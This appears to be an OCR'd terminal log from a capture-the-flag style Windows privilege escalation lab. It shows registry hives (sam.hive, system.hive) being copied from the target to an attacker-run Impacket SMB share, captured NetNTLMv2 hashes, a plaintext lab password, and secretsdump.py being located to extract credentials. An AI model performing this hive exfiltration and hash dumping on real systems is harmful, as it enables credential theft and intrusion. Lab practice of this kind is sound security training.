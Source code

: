 ```
        1 file(s) copied.

C:\Windows\system32>copy C:\Users\THMBackup\system.hive \\10.11.81.220\public\
        1 file(s) copied.

┌──(kali㉿kali)-[~/Downloads]
└─$ python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.12.124,49766)
[*] AUTHENTICATE_MESSAGE (WPRIVESC2\THMBackup,WPRIVESC2)
[*] User WPRIVESC2\THMBackup authenticated successfully
[*] THMBackup::WPRIVESC2:aaaaaaaaaaaaaaaa:d45f38dcbff5e570c62f4099a3ebbcb2:010100000000000000a82db0e5bed801c52e9c2e82c41e890000000001001000500069005900510073005900480046000300100050006900590051007300590048004600020010007200590045005a006e0076004f006600040010007200590045005a006e0076004f0066000700080000a82db0e5bed80106000400020000000800300030000000000000000000000000300000911f8859eb84abe4ce766b7f1318f18919c03caf2c06ccaa83cf5a6ff6eabf570a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310031002e00380031002e003200320030000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:public)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:public)
[*] Closing down connection (10.10.12.124,49766)
[*] Remaining connections []
[*] Incoming connection (10.10.12.124,49769)
[*] AUTHENTICATE_MESSAGE (WPRIVESC2\THMBackup,WPRIVESC2)
[*] User WPRIVESC2\THMBackup authenticated successfully
[*] THMBackup::WPRIVESC2:aaaaaaaaaaaaaaaa:2821fea5b09aacbbc617e5166326e952:0101000000000000800ed9c3e5bed80142bd33a8f63a2abe0000000001001000500069005900510073005900480046000300100050006900590051007300590048004600020010007200590045005a006e0076004f006600040010007200590045005a006e0076004f00660007000800800ed9c3e5bed80106000400020000000800300030000000000000000000000000300000911f8859eb84abe4ce766b7f1318f18919c03caf2c06ccaa83cf5a6ff6eabf570a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310031002e00380031002e003200320030000000000000000000
[*] Connecting Share(1:public)
[*] Disconnecting Share(1:public)
[*] Closing down connection (10.10.12.124,49769)
[*] Remaining connections []


┌──(kali㉿kali)-[~/Downloads]
└─$ cd share               
                                                                          
┌──(kali㉿kali)-[~/Downloads/share]
└─$ ls
sam.hive  system.hive
                                                                          
┌──(kali㉿kali)-[~/Downloads/share]
└─$ locate secretsdump.py
/home/kali/Downloads/zerologon_learning/impacketEnv/bin/secretsdump.py
/home/kali/Downloads/zerologon_learning/impacketEnv/lib/python3.10/site-packages/impacket/examples/secretsdump.py
/usr/lib/python3/dist-packages/impacket/examples/secretsdump.py
/usr/share/doc/python3-impacket/examples/secretsdump.py
/usr/share/metasploit-framework/modules/auxiliary/scanner/smb/impacket/secretsdump.py
/usr/share/responder/tools/MultiRelay/impacket-dev/secretsdump.py
/usr/share/responder/tools/MultiRelay/impacket-dev/impacket/examples/secretsdump.py
```